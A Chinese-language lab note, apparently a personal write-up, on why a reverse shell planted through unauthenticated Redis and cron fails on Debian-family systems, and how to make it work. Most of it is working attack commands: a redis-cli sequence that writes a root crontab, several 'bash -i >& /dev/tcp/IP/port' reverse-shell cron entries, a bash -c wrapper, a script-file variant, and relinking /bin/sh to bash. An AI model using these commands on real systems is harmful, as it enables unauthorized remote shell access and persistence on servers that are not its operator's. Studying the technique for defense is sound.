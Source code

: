 # redis未授权反弹shell失败解决

受害机器：kali；攻击主机：mac；

注意，这里写的是**利用定时任务反弹shell**会出现的问题。

最开始在网上找的poc

```shell
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * 
\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

很随意的一个poc，会遇到各种各样的问题。

执行完之后，使用`crontab -l`发现并没有定时任务执行，这是因为reids写入的定时文件格式有误，据说ubuntu、Debian都有这个问题，centos可以成功复现。不过今天的重点并不在此。

重点是**用crontab反弹shell**。

直接在受害机上使用`crontab -e`写入定时任务，根据最开始网上的那篇博客，应该这么写

```sh
# 写入定时任务
* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n
# 查看定时任务是否执行
crontab -l
```

然后发现执行了，但是shell没有反弹到mac上；

怎么办？

```sh
# 首先查看系统日志
$ tail -f /var/log/syslog
# 结果如下；表示crontab执行出错
CRON[55318]: (CRON) info (No MTA installed, discarding output)

# 写入如下任务---查看crontab的错误日志
* * * * * '/bin/bash -i >& /dev/tcp/192.168.63.128/7999 0>&1'>/tmp/error.txt 2>&1
# 结果如下
$ cat /tmp/error.txt
 bash: cannot set terminal process group (6868): Inappropriate ioctl for device
 bash: no job control in this shell
 bash: >& /dev/tcp/192.168.63.128/7999 0>&1: No such file or directory
```

### 执行bash命令

/bin/bash没有被找到；crontab使用的shell环境是/bin/sh；

Debian下，`sh->dash`，也就是说，要用dash去把反弹bash，这是出错的根本原因。

```shell
# bash -i >& /dev/tcp/10.2.196.17/7777 0>&1           
dash: 2: Syntax error: Bad fd number
# ^C
# /bin/bash -i >& /dev/tcp/10.2.196.17/7777 0>&1
dash: 3: Syntax error: Bad fd number
# /bin/bash -c >& /dev/tcp/10.2.196.1
```

> 但是dash为什么不能反弹bash？

所以，其实可以使用`bash -c`执行命令，而这个命令是反弹交互式bash shell；

```shell
bash -c "bash -i >& /dev/tcp/10.2.196.17/7777 0>&1"
```

也就是，定时任务反弹shell可以写成这样

```shell
* * * * * *  bash -c "bash -i  >&/dev/tcp/10.2.196.17/7777 0>&1"
```

### 使用脚本文件

```shell
# 编辑shell脚本
$ vim /temp/test.sh
# 文件内容如下
# !/bin/bash
/bin/bash -i >& /dev/tcp/10.2.196.17/7777 0>&1

# 加上执行权限
$ chmod +x /tmp/test.sh

# 修改计划任务
* * * * * * /tmp/test.sh
```

### 修改sh指向

让sh指向bash

```shell
ln -s -f bash /bin/sh
```


### 参考博客
- [很有用的博客](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [某云玩家博客](https://p0sec.net/index.php/archives/69/)
